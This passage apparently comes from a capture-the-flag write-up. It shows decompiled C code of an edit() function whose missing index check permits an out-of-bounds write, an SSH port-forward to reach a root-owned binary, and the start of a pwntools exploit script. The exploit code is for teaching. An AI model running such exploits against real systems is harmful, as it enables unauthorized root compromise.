 We are lucky because the `edit()` function do not check for the index and we can edit addresses:
```c edit()
void edit(void)

{
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (Arryindex == 0) {
    puts("No Message Created");
  }
  else {
    printf("Enter number to edit: ");
    __isoc99_scanf("%d[^\n]",&local_14);
    printf("Message Title: ");
    __isoc99_scanf(" %59[^\n]",*(undefined8 *)(message_array + (long)local_14 * 8));
    printf("Message: ");
    __isoc99_scanf("%100[^\n]",*(long *)(message_array + (long)local_14 * 8) + 0x3c);
    fflush(stdin);
    fflush(stdout);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

### Exploit
We can use SSH to forward the port of the binary running as root:
```bash
$ ssh -i user.idrsa user@10.10.11.157 -L 9851:127.0.0.1:9851
```

Python script to exploit the binary:
```python exploit.py
#!/usr/bin/env python3
from pwn import *

context.clear(arch='amd64', os='linux')
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

def create(data):
    log.info('Creating a new message')
    io.recvuntil(b'5.Exit')
    io.sendline(b'1')
    io.recvlines(5)
    io.sendline(data)

def edit(data):
    log.info('Editing the message of index 12')
    io.recvuntil(b'5.Exit')
    io.sendline(b'3')
    io.recvline(1)
    io.sendline(b'12')
    io.sendline(data)

def exit_1():
    log.info('Exiting now...')
    io.recvuntil(b'5.Exit')
    io.sendline(b'5')
```